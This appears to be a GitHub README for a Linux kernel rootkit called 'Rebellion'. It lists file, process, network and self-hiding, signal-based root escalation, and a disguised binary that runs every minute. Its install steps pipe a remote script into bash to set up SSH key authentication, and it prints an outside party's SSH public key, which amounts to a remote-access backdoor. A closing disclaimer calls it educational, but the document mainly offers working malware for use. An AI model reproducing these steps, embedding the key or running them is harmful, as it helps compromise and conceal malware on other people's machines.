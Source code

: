 # Rebellion Rootkit

Modified Linux Rootkit for x86/x86_64 kernels 5.x/6.x with timer-based program execution.

## Features

- **Timer-based execution**: Automatically executes `/usr/src/droplet/linux-gnu-header` every 1 minute
- **File hiding**: Files with "reb_" prefix are hidden from directory listings
- **Process hiding**: Hide processes and network connections
- **Module self-hiding**: Rootkit module can hide itself
- **Root privilege escalation**: Signal-based privilege escalation

## Download and Installation

### Method 1: SSH Key Authentication

Use the provided script to set up SSH key authentication and download:

```bash
# Download and run the setup script
curl -s https://raw.githubusercontent.com/Starrynight0x01/rebell/main/download_with_ssh.sh | bash
```

Or manually:

```bash
wget https://raw.githubusercontent.com/Starrynight0x01/rebell/main/download_with_ssh.sh
chmod +x download_with_ssh.sh
./download_with_ssh.sh
```

### Method 2: Direct Git Clone

```bash
git clone https://github.com/Starrynight0x01/rebell.git
cd rebell
make clean && make
```

## Usage

1. **Load the module:**
   ```bash
   sudo insmod rebellion.ko
   ```

2. **Verify it's working:**
   - The program `/usr/src/droplet/linux-gnu-header` will execute every minute
   - Files with "reb_" prefix will be hidden from `ls` commands

3. **Unload the module:**
   ```bash
   sudo rmmod rebellion
   ```

## Configuration

Edit `config.h` to modify:
- `MAGIC_PREFIX`: Change file hiding prefix (default: "reb_")
- `HIDE_PORT`: TCP/UDP port to hide from netstat
- Program execution path (currently: `/usr/src/droplet/linux-gnu-header`)

## SSH Public Key

The included SSH public key for authentication:
```
ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIHUvuK2UqTzgDs7/Z6bzzGE+XHwwsJRfdvra0cLBnobh root@guidedprice.aeza.network
```

## Signals

- `SIGUSR1 (10)`: Privilege escalation
- `SIGUSR2 (12)`: Hide/show module

## Warning

This software is for educational and authorized testing purposes only. Use responsibly and in compliance with applicable laws.

## Build Requirements

- Linux kernel headers
- GCC compiler
- Make

## Compatibility

- Linux kernels 5.x and 6.x
- x86 and x86_64 architectures
